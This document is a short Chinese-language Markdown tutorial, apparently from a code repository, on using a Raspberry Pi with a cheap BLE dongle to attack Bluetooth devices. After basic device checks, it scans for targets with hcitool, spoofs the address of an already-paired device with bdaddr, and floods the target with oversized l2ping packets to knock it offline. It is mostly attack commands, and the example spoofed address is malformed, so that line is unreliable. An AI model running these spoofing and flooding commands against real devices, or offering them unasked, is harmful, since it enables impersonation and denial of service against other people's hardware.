


# raspberry BLE dos攻击
1. 买个20块钱的ble dongle插上，像这样：</br>
    
    
2. 查看本机信息：
    ```
    lsusb   # 查看加载的驱动
    ```
    
    ```
    lsmod | grep bt  # 查看模块
    hciconfig   # 查看蓝牙设备信息
    ```
    
    ```
    # 启动自己的ble dongle
    hciconfig hci0 up  # 启动蓝牙设备
    hciconfig hci0 off # 关闭蓝牙设备
    ```
    扫描蓝牙信息
    ```
    hcitool scan    # 进行扫描
    hcitool lescan   # 低功率蓝牙扫描
    ```
    找到目标了，我们先伪造一下自己的蓝牙地址
    ```
    bdaddr -i hci0 00:23:a2:8s # 伪造已匹配的mac地址
    bccmd warmreset
    ```
    判断一下目标是否UP或者NOT，
    ```
    sudo l2ping MAC
    ```
    
    
    这样我们就可以dos一下了
    ```
    l2ping -i hci0 -s 10000 蓝牙mac地址
    ```